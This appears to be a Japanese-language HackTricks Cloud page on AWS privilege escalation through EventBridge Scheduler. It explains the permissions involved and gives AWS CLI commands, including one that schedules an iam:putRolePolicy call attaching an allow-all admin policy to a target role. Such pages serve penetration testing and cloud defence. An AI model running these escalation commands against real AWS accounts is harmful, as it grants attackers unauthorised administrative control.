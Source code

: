 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Schedulerは、さまざまなAWSサービスへの呼び出しをスケジュールすることで特権昇格に使用できます。スケジュールに基づいてサービスを呼び出す能力を活用することで、十分な権限を持つユーザーは特権を昇格させることができます。EventBridge Schedulerがテンプレート化されたターゲットを使用してトリガーできる主なアクションのいくつかは次のとおりです。

- Lambda: lambda:InvokeFunction - スケジュールに従ってLambda関数を呼び出します。
- CodeBuild: codebuild:StartBuild - AWS CodeBuildプロジェクトを開始します。
- CodePipeline: codepipeline:StartPipelineExecution - AWS CodePipelineの実行をトリガーします。
- ECS: ecs:RunTask - ECSタスクを実行します。
- EventBridge: events:PutEvents - EventBridgeにイベントを送信します。
- Inspector: inspector:StartAssessmentRun - Amazon Inspectorの評価を開始します。
- Kinesis: kinesis:PutRecord - Kinesisストリームにレコードを送信します。
- Firehose: firehose:PutRecord - Firehose配信ストリームにレコードを送信します。
- SageMaker: sagemaker:StartPipelineExecution - SageMakerパイプラインの実行を開始します。
- SNS: sns:Publish - SNSトピックにメッセージを公開します。
- SQS: sqs:SendMessage - SQSキューにメッセージを送信します。
- Step Functions: states:StartExecution - AWS Step Functionsの実行を開始します。

これらはEventBridge Schedulerが実行できるテンプレート化されたアクションの一部に過ぎません。ただし、ユニバーサルターゲットを使用することで、AWSサービス全体で多くの他のアクションを呼び出すことができます。ユニバーサルターゲットは、テンプレート化されたリストを超えたより広範なAPI操作を可能にします。

EventBridge Schedulerの詳細については：

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `sts:AssumeRole`, `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

`sts:AssumeRole`、`iam:PassRole`、および`scheduler:CreateSchedule`または`scheduler:UpdateSchedule`の権限を持つユーザーは、EventBridge Schedulerを利用して、より高い権限を持つロールを使用してサービスを呼び出すことで特権を昇格させることができます。

これらの権限を持つ攻撃者は、昇格された権限を持つロールを引き受け、そのロールをEventBridge Schedulerに渡してスケジュールを作成または更新できます。スケジュールは、Lambda関数の呼び出し、ECSタスクの開始、CodePipelineの実行のトリガー、またはEventBridge Schedulerがサポートする270のAWSサービスのいずれかの操作を実行するように構成できます。これらのアクションをスケジュールすることで、攻撃者は高い権限を悪用してAWSサービス全体で不正な操作を実行することができます。
\\

たとえば、彼らはスケジュールを設定して、テンプレート化されたアクションであるLambda関数を呼び出すことができます：
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
EventBridge Schedulerでは、テンプレート化されたサービスアクションに加えて、さまざまなAWSサービスのAPI操作を呼び出すためにユニバーサルターゲットを使用できます。ユニバーサルターゲットは、ほぼすべてのAPIを呼び出す柔軟性を提供します。1つの例は、「putRolePolicy」ポリシーを持つロールを使用して「AdminAccessPolicy」を追加するユニバーサルターゲットを使用することです：
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## 参考文献

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}
